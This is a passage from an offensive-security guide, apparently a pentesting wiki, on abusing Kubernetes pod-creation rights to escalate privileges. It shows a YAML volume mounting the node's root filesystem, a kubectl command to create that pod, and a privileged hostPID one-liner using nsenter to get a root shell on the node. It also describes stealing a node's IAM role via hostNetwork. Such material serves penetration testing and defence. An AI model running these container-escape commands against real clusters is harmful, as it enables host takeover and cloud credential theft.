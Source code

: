 ```yaml
  volumes:
  - name: host-volume
    hostPath:
      path: /
```
{% endcode %}

Create the pod with:

```bash
kubectl --token $token create -f mount_root.yaml
```

One-liner from [this tweet](https://twitter.com/mauilion/status/1129468485480751104) and with some additions:

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Now that you can escape to the node check post-exploitation techniques in:

#### Stealth

You probably want to be **stealthier**, in the following pages you can see what you would be able to access if you create a pod only enabling some of the mentioned privileges in the previous template:

* **Privileged + hostPID**
* **Privileged only**
* **hostPath**
* **hostPID**
* **hostNetwork**
* **hostIPC**

_You can find example of how to create/abuse the previous privileged pods configurations in_ [_https://github.com/BishopFox/badPods_](https://github.com/BishopFox/badPods)

### Pod Create - Move to cloud

If you can **create** a **pod** (and optionally a **service account**) you might be able to **obtain privileges in cloud environment** by **assigning cloud roles to a pod or a service account** and then accessing it.\
Moreover, if you can create a **pod with the host network namespace** you can **steal the IAM** role of the **node** instance.

For more information check:

{% content-ref url="pod-escape-privileges.md" %}
[pod-escape-privileges.md](pod-escape-privileges.md)
{% endcontent-ref %}

### **Create/Patch Deployment, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs and Cronjobs**
